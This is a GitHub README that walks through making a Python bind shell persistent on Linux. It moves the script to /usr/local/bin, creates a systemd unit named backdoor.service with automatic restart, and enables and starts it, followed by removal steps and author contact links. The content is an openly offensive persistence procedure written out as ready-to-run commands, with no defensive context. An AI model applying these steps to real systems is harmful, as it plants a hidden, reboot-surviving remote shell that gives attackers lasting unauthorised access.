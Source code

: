 # Persistent Backdoor Setup

---

## **Step 1: Move the Script to a Persistent Location**
Move your Python bind shell script to `/usr/local/bin/` and make it executable:

```bash
sudo mv your_script.py /usr/local/bin/shell.py
sudo chmod +x /usr/local/bin/shell.py
```

## **Step 2: Create a Systemd Service File**

```bash
sudo nano /etc/systemd/system/backdoor.service
```

## **Step 3: Add the following content:**

```bash
[Unit]
Description=Persistent backdoor
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 /usr/local/bin/shell.py
Restart=always

[Install]
WantedBy=multi-user.target

```

## **Step 4: Enable and Start the Service**

```bash
sudo systemctl enable backdoor.service
sudo systemctl start backdoor.service

```

## **Step 5: Verify Service Status**

```bash
sudo systemctl status backdoor.service
```

## **Step 6: Stop and Remove the Service (If Needed)**

```bash
sudo systemctl stop backdoor.service
sudo systemctl disable backdoor.service
sudo rm /etc/systemd/system/backdoor.service
sudo systemctl daemon-reload
```

# Author
- **GitHub**: [@nahid0x1](https://github.com/nahid0x1)
- **Twitter**: [@nahid0x1](https://x.com/nahid0x1)
- **Linkedin**: [@nahid0x1](https://www.linkedin.com/in/nahid0x1)
- **Email**: [nahid0x1.official@gmail.com](mailto:nahid0x1.official@gmail.com)
